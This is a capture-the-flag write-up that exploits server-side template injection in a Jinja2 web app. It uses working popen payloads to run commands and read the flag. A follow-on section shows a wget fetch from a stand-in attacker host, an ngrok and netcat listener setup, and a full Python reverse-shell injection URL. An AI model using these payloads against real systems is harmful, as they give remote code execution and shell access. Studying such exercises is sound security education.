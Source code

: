 # Super Space Tech Inc

## Challenge Description
Our engineers have found that one of the python web applications have been infiltrated. Try to find what the attackers have hidden!
http://chall.seccomp.xyz:5003/

## Walkthrough
Going to the challenge home page, it shows only a link (Jarvis). This link displays the following text: “Hi, Javis”. Note that the url accepts the parameter “name” and the default input is “Javis”.
![alt text](img/Picture1.png)
![alt text](img/Picture2.png)

<br />The output appears to be printed from a template. This template is as follows:
“Hi, {name}”, where the variable “name” is the url input. 
To verify, we can inject our own input.<br />
![alt text](img/Picture3.png)

<br />Our input is displayed successfully. 

A vulnerability called Server Side Template Injection (SSTI) could be present in this web app.
<br />SSTI is a critical vulnerability as it enables the attacker to inject malicious inputs into a template and execute server side.
<br />Potential threats include unauthorised file disclosure and arbitrary code execution.

The challenge title also gives a hint that it is SSTI (**S**uper **S**pace **T**ech **I**nc).
<br />A simple test to detect SSTI is to perform a mathematical evaluation and verify if the input is rendered and reflected in the output. 
<br />Inserting the input **{{7*7}}** into the url parameter prints the output of **49**, confirming the existence of SSTI.
![alt text](img/Picture4.png)

<br />In order to use the correct payload, we will need to identify the template engine. <br />By injecting an invalid payload, an error will trigger and the engine is identified. <br />However if the error messages are suppressed, we will need to inject language-specific payloads. <br />Fortunately, PortSwigger has a decision tree for us to refer to: https://portswigger.net/research/server-side-template-injection
<br />![alt text](img/Picture5.png)

<br />In this challenge, all of these are unnecessary as the description states it is running a python web server (Jinja2).

SSTI Payloads can be found in PayloadsAllTheThings (https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md)

<br />We will use the following payload to execute the **id** command via Remote Code Execution (RCE) in Jinja2 syntax
```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

<br />The command is executed successfully.
```
http://chall.seccomp.xyz:5003/read?name={{%20self.__init__.__globals__.__builtins__.__import__(%27os%27).popen(%27id%27).read()%20}}
```
![alt text](img/Picture7.png)


<br />List files in the directory using **ls** command.
```
http://chall.seccomp.xyz:5003/read?name={{%20self.__init__.__globals__.__builtins__.__import__(%27os%27).popen(%27ls%27).read()%20}}
```
![alt text](img/Picture8.png)


<br />The **flag.txt** is discovered in the directory. Obtain the flag using **cat** command.
```
http://chall.seccomp.xyz:5003/read?name={{%20self.__init__.__globals__.__builtins__.__import__(%27os%27).popen(%27cat%20flag.txt%27).read()%20}}
```
![alt text](img/Picture9.png)

The flag obtained is **CZ4067{3xp1oiT_sStI}**.<br /><br /><br />


## Taking a step further from REMOTE CODE EXECUTION (RCE)
The implications of a vulnerability leading to a RCE is catastrophic as it gives the attackers the ability to perform arbitrary code execution, including system commands.
<br />Once obtaining RCE, an attacker will typically attempt to gain backdoor access into the victim’s machine to perform more malicious actions. <br />We will demonstrate a simple Backdoor POC for the purpose of educating others on the impacts of RCE.<br /><br />

### Creating our payload
A common method of gaining backdoor access in Linux is to transfer a malicious payload into the victim machine via **curl** or **wget** command. However, it is discovered that neither commands are installed in this machine.

**curl** command to http://google.com
```
http://chall.seccomp.xyz:5003/read?name={{%20self.__init__.__globals__.__builtins__.__import__(%27os%27).popen(%27curl%20http://google.com%27).read()%20}}
```

<br />**wget** command from attacker machine
```
http://chall.seccomp.xyz:5003/read?name={{%20self.__init__.__globals__.__builtins__.__import__(%27os%27).popen(%27wget%20http://AttackerIP/payload.exe%27).read()%20}}
```
![alt text](img/Picture10.png)

<br />Fortunately, as this is a Linux machine, it will typically have Python installed. We can use the **socket.connect()** method from Python’s socket library, which establishes a TCP connection to a server. This will be our reverse shell payload.<br /><br />

### Setting up C2 Server and Kali netcat for listening
As the connection is made over the Internet, we will need to set up Port Forwarding in our own network. <br />However, this will cause security issues as our Public IP Address will be disclosed. <br />Thus, we will set up a Command and Control (C2) Server using **ngrok**. <br />Signing up is required and installation can be found in the website: https://ngrok.com/download

Once ngrok is installed in our Kali Linux machine, we run the following command:
```console
$ ngrok tcp <internal port>
```
In this test, the internal port used is **6969**.

<br />The service will start and traffic is now forwarded from ngrok service to our localhost
![alt text](img/Picture11.png)

<br />Next, set up **netcat** to listen for incoming connection
```console
$ nc -lvnp 6969
```
<br />

### Executing reverse shell
The following command will be injected into the Web Server:
```console
$ python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ngrokIP",externalport));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

<br />In summary, the Web Server will establish a connection with our C2 Server, before spawning a bash process. <br />In this example, ngrokIP is **0.tcp.ap.ngrok.io** and externalport is **17897**.

This will be the resulting RCE command:
```
http://chall.seccomp.xyz:5003/read?name={{%20self.__init__.__globals__.__builtins__.__import__(%27os%27).popen(%27python%20-c%20\%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%220.tcp.ap.ngrok.io%22,17897));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import%20pty;%20pty.spawn(%22/bin/bash%22)\%27%27).read()%20}
```

<br />In our Kali Linux machine, a shell terminal is opened and we can interact with the Web Server directly.
![alt text](img/Picture12.png)

<br />Having a direct connection to the victim’s machine allows the attacker to proceed with his kill chain. He can perform post-exploitation methods including but not only:
- Enumeration for Privilege Escalation, gaining root access to the machine
- Data Exfiltration
- Persistency in the machine
- Pivoting into exploiting other machines within the network

